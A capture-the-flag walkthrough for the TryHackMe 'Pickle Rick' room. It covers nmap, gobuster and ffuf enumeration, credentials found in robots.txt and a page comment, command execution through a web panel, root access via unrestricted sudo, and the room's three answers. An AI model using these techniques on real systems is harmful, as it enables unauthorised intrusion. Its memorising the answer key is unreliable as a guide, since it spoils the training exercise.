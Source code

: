 # Solution

## URL
- [Pickle Rick](https://tryhackme.com/room/picklerick)

## Steps

### Enumerate:
1. Let us run an NMAP scan on the IP: `sudo nmap -v -sS -A -p- 10.10.121.42 | tee TryHackMe/pickle-rick/nmap-scan.txt`
2. Since we already know there is a website let us check if `/robots.txt` is there.
3. Contents of `/robots.txt`: `Wubbalubbadubdub`.
4. Let us also check the source code of index page. Found a comment: `Username: R1ckRul3s`.
5. Run gobuster on webiste to find hidden directories/files: `gobuster -u http://10.10.121.42/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`.
6. Let's see if `/sitemap.xml` is there. Checked, it is not there.
7. Tried `Wubbalubbadubdub` which we found in `/robots.txt` as a path, did not work.
8. NMAP scan shows ssh is open let's try to connect to it with the username we found and `Wubbalubbadubdub` as password. Permission denied, only accepts key based auth ig.
9. Fuzzing for logins using ffuf: `ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/Logins.fuzz.txt -u http://10.10.121.42/FUZZ -mc 200,301,302,403 -fs 1062 -v | tee TryHackMe/pickle-rick/ffuf-logins.txt` we found `/login.php`.

### OS Command Injection
1. In the `Command Panel` we can run OS commands.
2. Running `ls` we got:
    ```
    Sup3rS3cretPickl3Ingred.txt
    assets
    clue.txt
    denied.php
    index.html
    login.php
    portal.php
    robots.txt
    ```
3. `cat` command is disabled, so we can't use that to read `Sup3rS3cretPickl3Ingred.txt`.
4. So we will use `less Sup3rS3cretPickl3Ingred.txt`, which gives the answer to the first question: `mr. meeseek hair`.
5. Checking the home directory: `ls -al /home` we got, `rick` and `ubuntu`.
6. Checking rick's directory we got `second ingredients` file.
7. Reading that with: `less "/home/rick/second ingredients"` we get the answer to the second question `1 jerry tear`.
8. Checking our sudo privileges `sudo -l`, we get:
    ```
    Matching Defaults entries for www-data on ip-10-10-121-42.eu-west-1.compute.internal:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on ip-10-10-121-42.eu-west-1.compute.internal:
        (ALL) NOPASSWD: ALL
    ```

9. This means we can run any command. `sudo ls /root` gives us a file called `3rd.txt`.
10. Reading this with `sudo less /root/3rd.txt` gives us the final answer `3rd ingredients: fleeb juice`.

### Task 1:
#### What is the first ingredient that Rick needs?
1. The answer is `mr. meeseek hair`.

#### What is the second ingredient in Rick’s potion?
1. The answer is `1 jerry tear`.

#### What is the last and final ingredient?
1. The answer is `fleeb juice`.